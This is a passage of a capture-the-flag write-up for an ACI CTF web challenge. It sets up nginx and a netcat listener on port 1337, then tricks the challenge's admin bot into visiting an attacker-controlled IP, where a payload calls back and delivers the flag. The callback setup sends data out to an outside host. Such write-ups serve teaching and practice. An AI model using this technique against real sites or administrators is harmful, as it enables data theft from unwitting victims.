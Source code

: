 ```
$ ln -s /etc/nginx/sites-available/mysite /etc/nginx/sites-enabled/
$ rm /etc/nginx/sites-enabled/default
$ systemctl restart nginx
```

Now we just need to setup a listener on port `1337`. So our payload is using netcat `nc` to call out to our listener, but we can also use netcat to setup the listener. SANS has a good [cheat sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) on netcat. the `-l` flag means `listen mode` and the `-p` followed by a number is the local port to listen on. 

```
nc -l -p 1337
```

Now that our website is setup with a payload and we are listening for connections, all we have to do is have to website admin call out to us and run the plugin.

#### 4. Get website admin to give us the flag

To get the admin to give us the flag, we just need them to go out our web server. Browse to http://challenge.acictf.com:62110/dovisit. There is a submission box. Go ahead and put in `http://165.227.198.232`and click `Visit!`.

The admin will visit our page and then render their plugin manager page. In a minute or so you should see the text `We successfully visited this URL!`. Go ahead and check the terminal running the `nc` command.

```
# nc -l -p 1337
ACI{e4412f26d1dc758d9a85f951561}
```

**ACI{e4412f26d1dc758d9a85f951561}**
